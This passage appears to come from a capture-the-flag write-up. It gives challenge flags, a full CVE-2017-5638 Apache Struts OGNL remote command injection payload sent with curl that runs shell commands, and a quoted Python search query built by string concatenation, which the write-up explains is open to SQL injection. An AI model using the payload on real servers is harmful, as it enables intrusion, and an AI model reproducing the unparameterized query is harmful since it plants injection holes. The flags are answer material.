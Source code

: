 **Flag:** `Spark{F4st1ng_Is_G00d_But_Exp0sIng_Qu3r13s_Is_N0t}`

---

## Challenge 3: Struts Challenge 😈

This challenge is vulnerable to **CVE-2017-5638** - The Apache Struts vulnerability.

Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker's invalid Content-Type HTTP header.

### Exploitation

For the payload using curl:

```bash
curl -X POST http://SERVER-IP:8080/product-catalog/ \
-H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

This should give you as output `root`.

By changing the `#cmd` variable to `#cmd = 'cat /opt/flag.txt'`, you should get the flag.

**Flag:** `Spark{B0ou3radaFTW!!_23qd45sq6}`

---

## Challenge 4: Secure BankSys

By looking at the web app, we find there are three pages:
- Main page
- Accounts
- Login

In the accounts tab, we perform a simple SQL injection.

We know the webapp is vulnerable to SQLi. The vulnerability is in the `/search` route in `app.py`:

```python
sql_query = f"SELECT account_number, customer_name, balance, account_type FROM accounts WHERE account_number LIKE '%{query}%' OR customer_name LIKE '%{query}%' OR account_type LIKE '%{query}%'"
```

The user input is directly concatenated into the SQL query without parameterization, making it vulnerable to SQL injection.

### Exploitation Steps
